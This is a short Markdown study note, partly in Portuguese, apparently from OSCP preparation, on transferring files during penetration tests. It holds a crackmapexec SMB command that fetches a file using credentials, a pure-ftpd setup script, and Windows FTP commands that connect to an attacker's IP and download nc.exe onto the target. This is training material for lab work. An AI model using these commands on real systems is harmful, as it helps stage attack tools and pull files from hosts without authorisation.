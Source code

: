 Transfering files
========================


# Downloading 

## Crackmapexec

    #~ crackmapexec smb 172.16.251.152 -u user -p pass --get-file  \\Windows\\Temp\\whoami.txt /tmp/whoami.txt

## FTP
Preparing FTP server 

    sudo apt update
    sudo apt install pure-ftpd
    
    
Script para setup adequado do serviço FTP
       
    cat ./setup-ftp.sh
    
    #!/bin/bash

    sudo groupadd ftpgroup
    sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    sudo pure-pw useradd offsec -u ftpuser -d /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/ftphome
    sudo pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    sudo ln -s ../conf/PureDB 60pdb
    #sudo mkdir -p /ftphome
    sudo chown -R ftpuser:ftpgroup /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/ftphome
    sudo systemctl restart pure-ftpd

O windows como cliente ficaria com os seguntes comandos:

    ftp -n -v
    open 192.168.0.253
    user offsec
    lab
    bin
    get nc.exe
    bye
    
onde:

-n é para evitaar a solicitação de prompt de login
-v para evitar verbose output

open: inicia a conexão com o IP do atacante
user: informar usuário e senha
bin: modo binário de transferência
get: obter um determinado arquivo
